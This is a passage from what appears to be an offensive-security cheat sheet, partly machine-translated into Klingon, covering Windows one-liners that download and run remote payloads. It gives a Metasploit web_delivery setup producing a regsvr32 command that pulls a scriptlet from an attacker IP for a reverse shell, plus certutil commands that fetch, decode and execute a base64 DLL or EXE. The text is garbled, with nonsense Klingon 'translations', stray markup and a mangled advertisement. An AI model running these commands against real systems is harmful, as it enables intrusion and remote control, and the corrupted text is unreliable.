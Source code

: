 ```markup
</scriptlet>
```
#### **Regsvr32 - Metasploit**
```bash
use multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse/tcp
set lhost 10.2.0.5
run
#You will be given the command to run in the victim: regsvr32 /s /n /u /i:http://10.2.0.5:8080/82j8mC8JBblt.sct scrobj.dll
```
**nuqneH:** 
* [ghap 'ej execute Koadic zombie vItlhutlhlaH regsvr stager](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)

Certutil:
* [vaj 'ej](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/) 

B64dll download, decode, 'ej execute.
```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```
**Translation:**

**Download a B64exe, decode it and execute it.**

**Translation (Klingon):**

**B64exe vItlhutlh, vItlhutlh je vItlhutlh.**

**Translation (Markdown):**

**Download a B64exe, decode it and execute it.**
```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
**Qa'vIn Defender Daq yIlo'**

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

vulnerabilities vItlhutlhlaHvIS, vItlhutlh scans proactive threat, vItlhutlh issues tech stack, APIs web apps cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.
